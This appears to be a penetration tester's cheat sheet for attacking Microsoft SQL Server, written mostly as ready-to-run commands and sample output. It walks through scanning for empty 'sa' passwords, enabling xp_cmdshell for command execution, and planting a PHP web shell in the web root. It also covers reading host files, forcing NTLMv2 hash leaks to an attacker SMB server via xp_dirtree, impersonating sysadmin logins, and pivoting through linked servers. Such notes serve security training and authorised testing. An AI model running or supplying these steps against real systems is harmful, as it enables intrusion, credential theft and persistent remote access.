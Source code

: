 Nmap:
```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

```SQL
SELECT name FROM sys.databases
GO
```


# Dangerous Settings
- MSSQL clients not using encryption to connect to the MSSQL server.
- The use of self-signed certificates when encryption is being used. Possible to spoof self-signed certificates.
- The use of [named pipes](https://docs.microsoft.com/en-us/sql/tools/configuration-manager/named-pipes-properties?view=sql-server-ver15).
- Weak & default `sa` credentials. Admins may forget to disable this account.
## XP_CMDSHELL
If we have appropriate privileges, we can enable `xp_cmdshell`:
```mysql
-- To allow advanced options to be changed.  
> EXECUTE sp_configure 'show advanced options', 1
> RECONFIGURE
> EXECUTE sp_configure 'xp_cmdshell', 1
> RECONFIGURE
```
There are other methods to get command execution, such as adding [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/adding-an-extended-stored-procedure-to-sql-server), [CLR Assemblies](https://docs.microsoft.com/en-us/dotnet/framework/data/adonet/sql/introduction-to-sql-server-clr-integration), [SQL Server Agent Jobs](https://docs.microsoft.com/en-us/sql/ssms/agent/schedule-a-job?view=sql-server-ver15), and [external scripts](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/sp-execute-external-script-transact-sql). Or additional functionalities like the `xp_regwrite` command, used to elevate privileges by creating new entries in the Windows registry.
# Write Local Files
>Required Admin privileges to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option)
## 1. Enable Ole Automation Procedures
```mysql
> sp_configure 'show advanced options', 1
> RECONFIGURE
> sp_configure 'Ole Automation Procedures', 1
> RECONFIGURE
```
## 2. Create File
```mysql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
# Read File
>Same read permission as the system account.
```sql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```
# Capture Service Hash
The undocumented stored procedures `xp_subdirs` and `xp_dirtree` uses SMB protocol to retrieve a list of child directories. We can use a stored procedure and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server.

```mysql
1> EXEC master..<xp_dirtree/xp_subdirs> '\\<OUR-IP>\share\'
```
If the service account has access to our server, we will obtain its hash. We can then attempt to crack the hash or relay it to another host.
>Relay might not work on same host as Windows patched it for originating system.
## SMB Servers
### [[Responder]]
```shell-session
$ sudo responder -I tun0
... SNIP ...
[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.10.110.17
[SMB] NTLMv2-SSP Username : SRVMSSQL\demouser
[SMB] NTLMv2-SSP Hash     : demouser::WIN7BOX:5e3ab...SNIP...
```
### [[SMBServer]]
```shell-session
$ impacket-smbserver share ./ -smb2support
... SNIP ...
[*] Incoming connection (10.129.203.7,49728)
[*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
[*] User WINSRV02\mssqlsvc authenticated successfully                        
[*] demouser::WIN7BOX:5e3ab...SNIP...
```
# Impersonate Users
>Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned.
## Identify Users to Impersonate
```mysql
> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```

```mysql
> SELECT DISTINCT name FROM sys.sysusers;
```
>**Note:** If a user isn't sysadmin, they still might be able to access other databases or linked servers
## Verify Current User/Role
```mysql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
If we see `0` we do not have sysadmin role, but can still impersonate `sa` user.
## Impersonate User
```mysql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
We should see `1` for a successful transaction
>**Note:** It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If the impersonated user doesn't have access to the DB you are connecting to, it will present an error. Do `USE master`.

# Linked Servers
If an SQL server has linked server configured, we could move laterally to that database server. If it is configured using credentials from remote server, and those credentials have sysadmin privileges, we could execute commands on that remote SQL instance.
## Identify Linked Servers
```mysql
> SELECT srvname, isremote FROM sysservers
```
`1` means a remote server, `0` means a linked server.
## Identify User
Identify the user used for the connection and its privileges. The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement sends pass-through commands to linked servers.
## Send Commands to Linked Server
Once we switched our user using `EXECUTE AS LOGIN = 'user'`, we can send commands to the linked server.
```mysql
> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<IP>\<LINKED-SERVER>]

------------------------------ ------------------------------ 
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote
```
>**Note:** If we need to use quotes in our query to the linked server, use single double quotes to escape the single quote. To run multiples commands at once, divide them up with a semi colon (;)

## Useful
```mysql
> EXEC sp_linkedservers;
> EXEC sp_helplinkedsrvlogin 'LOCAL.TEST.LINKED.SRV';
> SELECT * FROM [LOCAL.TEST.LINKED.SRV].master.sys.databases;
```
# Clients
Clients to access MSSQL:
### Linux
- [[MSSQLclient|Impacket-MSSQLClient]]
- [[sqsh]]
- [[dbeaver]]
- [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)
### Windows
- [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)
- [SQL Server PowerShell](https://docs.microsoft.com/en-us/sql/powershell/sql-server-powershell?view=sql-server-ver15)
- [HeidiSQL](https://www.heidisql.com/)
- [SQLPro](https://www.macsqlclient.com/)
- [[sqlcmd]]



